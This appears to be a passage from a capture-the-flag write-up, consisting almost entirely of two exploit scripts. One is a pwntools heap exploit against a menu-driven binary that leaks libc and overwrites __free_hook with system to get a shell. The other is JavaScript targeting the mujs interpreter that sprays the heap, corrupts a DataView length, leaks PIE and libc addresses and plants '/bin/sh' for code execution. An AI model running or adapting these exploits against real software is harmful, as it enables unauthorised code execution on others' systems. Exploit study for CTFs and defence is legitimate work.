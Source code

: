 ```python
def show(size):
	io.sendlineafter("cmd> ", b'3')
	io.sendlineafter("data: ", str(size))

def quit():
	io.sendlineafter("cmd> ", b'4')

insert(0x1000)
for i in range(9):
	insert(0x100*(9-i)+0xff)
for i in range(8):
	delete(0x100*(9-i)+0xff)
insert(0xff)
show(0)
io.recvuntil("content: ")
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - libc.sym['__malloc_hook'] - 0x10 - 96
success("libc_base:\t" + hex(libc_base))
insert(0x160)
delete(0)
delete(0x160)
insert(0x260, p64(libc_base + libc.sym['__free_hook'] - 8))
insert(0x360)
insert(0x460, b'/bin/sh\x00' + p64(libc_base + libc.sym['system']))
delete(0x460)
io.interactive()
```

### mujs
```javascript
// heapSpray
for(i = 0; i < 0x80; i +=1)
	DataView(0x48)

front = DataView(0xFF8);
last = DataView(0x48);
front = DataView(0x48);
P = DataView(0x48);
target = DataView(0x48);

front.setUint8(0x48 + 8, 10);
Date.prototype.setTime.bind(P)(1332403882588) // set Length overflow
front.setUint8(0x48 + 8, 16); // recover

PIE_low = P.getUint32(0x58) - 0x470A0;
print(PIE_low.toString(16));

P.setUint32(0xC8,PIE_low + 0x472A0)

LIBC_low = target.getUint32(0) - 0x1EC6A0
LIBC_high = target.getUint32(4)
print(LIBC_low.toString(16));

P.setUint32(0xC8,LIBC_low + 0x1EEB28 - 8)
P.setUint32(0xCC,LIBC_high)


target.setUint32(0x8,LIBC_low + 0x55410)
target.setUint32(0xC,LIBC_high)

P.setUint32(0xA0,0x6E69622F)
P.setUint32(0xA4,0x0068732F)
```
